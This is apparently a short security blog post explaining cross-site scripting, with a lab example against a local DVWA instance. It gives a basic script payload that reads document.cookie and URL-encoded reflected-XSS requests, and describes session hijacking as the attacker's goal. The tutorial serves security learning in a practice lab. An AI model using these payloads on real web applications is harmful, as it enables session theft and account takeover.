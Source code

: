 ```yaml
---
layout: post
section-type: post
title: Exploiting Cross-site scripting vulnerabilities
category: tech
tags: [ 'redteam', 'kali', 'dvwa', 'grabber' ]
---
```


What is Cross-site Scripting (XSS) and why is it so important?
XSS enables the injection of client-side instructions into a web applications that is viewed by other users.
In case you're wondering what can go wrong with that, just think about an attacker grabbing your session id, which will
enable a session-hijacking, which effectively means stealing your identity in the web application.
This, in combination with the XSS vulnerabilities being at the top 3 of the [OWASP Top Ten](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project#tab=OWASP_Top_10_for_2017_Release_Candidate) web application vulnerabilities, makes this kind of attacks crucial.

The anatomy of the attack is very simple.
Consider any user input as an attack surface, where we can enter javascript code in it.
If the web application returns this input to the client without encoding the '<' and '>' characters then the browser will interpret the script tags as javascript instructions sent by the web application and it will execute it.
Now, we can get access to the web page's cookie:


<pre><code data-trim class="javascript">

<script>alert(document.cookie)</script>

</code></pre>

http://127.0.0.1/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%27Oops!%27%29%3C%2Fscript%3E

127.0.0.1/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(%27Oops!%27)%3C%2Fscript%3E
